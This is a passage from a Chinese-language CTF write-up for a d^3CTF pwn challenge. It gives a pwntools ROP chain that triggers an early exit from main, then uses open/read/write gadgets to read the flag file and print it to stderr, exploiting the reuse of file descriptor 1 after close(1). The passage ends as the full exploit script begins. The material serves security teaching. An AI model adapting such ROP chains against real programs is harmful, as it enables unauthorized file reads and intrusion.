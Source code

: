 1.  #现在当退出main时，栈就会转移到buf里去  
2.  rop = 'd^3CTF'.ljust(8,'\x00')  
3.  #rsi = 0  
4.  rop += p64(pop_rsi_addr) + p64(0) + p64(0)  
5.  #rdi = 'flag'，我们把flag字符串存到buf+0xC8处  
6.  rop += p64(pop_rdi_addr) + p64(buf_addr + 0xC8)  
7.  #open  
8.  rop += p64(open_addr)  
9.  #rdx = 0x30  
10.  rop += p64(pop_rdx_addr) + p64(0x30)  
11.  #rdi = buf + 0x100,我们把读取的结果存在buf+0x100处  
12.  rop += p64(pop_rsi_addr) + p64(buf_addr+0x100) + p64(0)  
13.  #fd = 1,文件描述符1是现在对应打开的flag文件  
14.  rop += p64(pop_rdi_addr) + p64(1)  
15.  #read  
16.  rop += p64(read_addr)  
17.  #rdx = 0x30  
18.  rop += p64(pop_rdx_addr) + p64(0x30)  
19.  #rdi = buf + 0x100  
20.  rop += p64(pop_rsi_addr) + p64(buf_addr+0x100) + p64(0)  
21.  #fd = 2,文件描述符2是stderr  
22.  rop += p64(pop_rdi_addr) + p64(2)  
23.  #write  
24.  rop += p64(write_addr)  
25.  rop = rop.ljust(0xC8,'\x00')  
26.  #存入flag字符串  
27.  rop += 'flag\x00'  
28.  rop = rop.ljust(0x12C-1,'\x00')  

30.  sh.sendline(rop)  

我们在**开头写入了****d^3CTF\x00**，使得经过printf后，程序检测到d^3CTF，就直接退出main，就能执行我们的ROP链了，这样一次性搞定

需要注意的是文件描述符1对应了我们打开的flag文件，因为之前close(1)，所以当我们open时，1就会被利用起来。也可以具体调试一下，得到文件描述符。

![](img/92f68466a4bbe29ebc11085093b7a3d1.png)

综上，我们的exp脚本

1.  #coding:utf8  
2.  **from** pwn **import** *  
3.  **import** time  
